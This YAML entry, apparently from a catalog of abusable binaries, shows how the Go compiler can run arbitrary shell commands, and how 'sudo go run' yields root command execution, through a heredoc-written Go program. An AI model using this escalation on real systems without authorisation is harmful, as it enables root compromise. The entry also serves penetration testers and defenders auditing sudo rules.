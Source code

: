 ```yaml
---
description: Go compiler binary. Can be abused to execute arbitrary commands or escalate privileges if run as root.
functions:
  command-exec:
    - code: |
        # Execute arbitrary commands using Go and Bash heredoc
        COMMAND="id"
        mkdir -p /tmp/gomod && cd /tmp/gomod
        go mod init mod
        cat > main.go << EOF
        package main

        import (
            "fmt"
            "os"
            "os/exec"
        )

        func main() {
            if len(os.Args) < 2 {
                fmt.Println("Usage: go run main.go <command>")
                return
            }
            cmd := exec.Command("/bin/sh", "-c", os.Args[1])
            output, err := cmd.CombinedOutput()
            if err != nil {
                fmt.Printf("Error executing command: %v\n", err)
                return
            }
            fmt.Printf(string(output))
        }
        EOF
        go run main.go "$COMMAND"
  sudo:
    - code: |
        # Execute arbitrary commands as root
        COMMAND="id"
        mkdir -p /tmp/gomod && cd /tmp/gomod
        sudo go mod init mod
        cat > main.go << EOF
        package main

        import (
            "fmt"
            "os"
            "os/exec"
        )

        func main() {
            if len(os.Args) < 2 {
                fmt.Println("Usage: go run main.go <command>")
                return
            }
            cmd := exec.Command("/bin/sh", "-c", os.Args[1])
            output, err := cmd.CombinedOutput()
            if err != nil {
                fmt.Printf("Error executing command: %v\n", err)
                return
            }
            fmt.Printf(string(output))
        }
        EOF
        sudo go run main.go "$COMMAND"
notes:
  - "Creates a temporary Go module in /tmp/gomod and writes a Go program using heredoc."
  - "Command to execute is passed as an argument to the Go program."
  - "Works for normal user or with root (sudo)."
  - "Temporary files are created in /tmp/gomod; cleanup recommended after use."
---
```

